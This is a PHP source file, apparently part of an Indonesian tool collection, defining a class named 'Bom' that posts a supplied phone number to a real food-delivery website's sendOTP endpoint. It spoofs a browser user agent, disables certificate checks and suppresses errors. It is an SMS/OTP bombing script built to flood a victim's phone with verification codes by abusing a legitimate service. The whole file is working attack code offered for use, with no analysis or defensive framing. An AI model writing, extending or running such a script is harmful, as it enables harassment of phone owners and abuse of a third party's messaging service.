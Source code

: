 # tool-17
tak terkalahkan
<?php
error_reporting(0);

Class Bom {

	public $no;

	public function sendC($url, $page, $params) {

        $ch = curl_init(); 
        curl_setopt ($ch, CURLOPT_URL, $url.$page); 
        curl_setopt ($ch, CURLOPT_USERAGENT, "Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.8.1.6) Gecko/20070725 Firefox/2.0.0.6"); 
        curl_setopt ($ch, CURLOPT_RETURNTRANSFER, 1); 

        if(!empty($params)) {
        curl_setopt ($ch, CURLOPT_POSTFIELDS, $params);
        curl_setopt ($ch, CURLOPT_POST, 1); 
        }

        curl_setopt ($ch, CURLOPT_SSL_VERIFYPEER, 0);
        curl_setopt ($ch, CURLOPT_COOKIEJAR, 'cookie.txt');
        curl_setopt ($ch, CURLOPT_COOKIEFILE, 'cookie.txt');
        curl_setopt ($ch, CURLOPT_FOLLOWLOCATION, 1);

        $headers  = array();
        $headers[] = 'Content-Type: application/x-www-form-urlencoded; charset=utf-8';
        $headers[] = 'X-Requested-With: XMLHttpRequest';

        curl_setopt ($ch, CURLOPT_HTTPHEADER, $headers);    
        //curl_setopt ($ch, CURLOPT_HEADER, 1);
        $result = curl_exec ($ch);
        curl_close($ch);
        return $result;

    }

    private function getStr($start, $end, $string) {
        if (!empty($string)) {
        $setring = explode($start,$string);
        $setring = explode($end,$setring[1]);
        return $setring[0];
        }
    }


    public function Verif()
    {
        $url = "https://www.phd.co.id/en/users/sendOTP";
        $no = $this->no;
        $data = "phone_number={$no}";
        $send = $this->sendC($url, null, $data);
        if (preg_match('/We have sent an OTP to your phone, Please enter the 4 digit code./', $send)) {
                print('OTP berhasil Dikirim!<br>');
            } else {
                print('OTP Gagal Dikirim!<br>');
            }
    }

    
}
